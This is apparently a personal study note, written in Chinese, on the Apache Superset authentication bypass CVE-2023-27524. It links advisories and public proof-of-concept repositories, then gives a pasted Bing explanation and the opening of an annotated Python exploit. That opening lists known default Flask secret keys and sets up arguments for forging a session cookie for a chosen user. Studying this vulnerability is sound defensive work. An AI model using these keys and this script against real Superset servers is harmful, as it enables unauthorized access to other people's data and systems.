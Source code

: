 # 身份认证绕过\_ApacheSuperset_CVE-2023-27524

- [漏洞发现团队 horizon3ai 的报告](https://www.horizon3.ai/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/)
- [Freebuf](https://www.freebuf.com/vuls/369911.html)
- [Apache Superset 存在未授权访问漏洞(CVE-2023-27524)详细利用过程](https://blog.csdn.net/nnn2188185/article/details/130478979)
- Github 上的一些 poc
  - [horizon3ai/CVE-2023-27524](https://github.com/horizon3ai/CVE-2023-27524)
  - [Okaytc/Superset_auth_bypass_check](https://github.com/Okaytc/Superset_auth_bypass_check)
  - [TardC/CVE-2023-27524](https://github.com/TardC/CVE-2023-27524)
  - [antx-code/CVE-2023-27524](https://github.com/antx-code/CVE-2023-27524)
  - [Pari-Malam/CVE-2023-27524](https://github.com/Pari-Malam/CVE-2023-27524)
  - [MaanVader/CVE-2023-27524-POC](https://github.com/MaanVader/CVE-2023-27524-POC)

---

TODO: 需要再读读代码

---

bing

您好，这是 Bing。我可以帮您逐行解释一下具体代码的作用。😊

这段代码是用 Python 语言编写的，它使用了 flask_unsign, requests, urllib3, argparse, re, time 等模块，分别用于破解和伪造 session cookie，发送 HTTP 请求，忽略 HTTPS 警告，解析命令行参数，进行正则表达式匹配，控制时间等。这段代码的目的是利用 flask_unsign 模块来破解和伪造 Apache Superset 的 session cookie，从而绕过身份验证，实现远程代码执行的漏洞利用。这段代码是针对 CVE-2023-27524 这个漏洞编写的，该漏洞是由于 Apache Superset 使用了不安全的默认配置而导致的身份验证绕过漏洞 ¹。

具体来说，这段代码的逻辑如下：

```python
# 导入所需的模块
from flask_unsign import session
import requests
import urllib3
import argparse
import re
from time import sleep

# 忽略HTTPS警告
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# 定义一个SECRET_KEYS列表，里面存放了一些可能被Apache Superset使用的默认密钥，用于破解session cookie
SECRET_KEYS = [
    b"\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h",  # version < 1.4.1
    b"CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET",  # version >= 1.4.1
    b"thisISaSECRET_1234",  # deployment template
    b"YOUR_OWN_RANDOM_GENERATED_SECRET_KEY",  # documentation
    b"TEST_NON_DEV_SECRET",  # docker compose
]

# 定义一个main函数，用于执行主要的逻辑
def main():
    # 创建一个命令行参数解析器，用于接收用户输入的参数，包括目标URL(必须) ，用户ID(可选，默认为1) ，是否验证登录(可选，默认为否) ，等待时间(可选，默认为5秒) 等
    parser = argparse.ArgumentParser()
    parser.add_argument(
        "--url", "-u", help="Base URL of Superset instance", required=True
    )
    parser.add_argument(
        "--id",
        help="User ID to forge session cookie for, default=1",
        required=False,
        default="1",
    )
```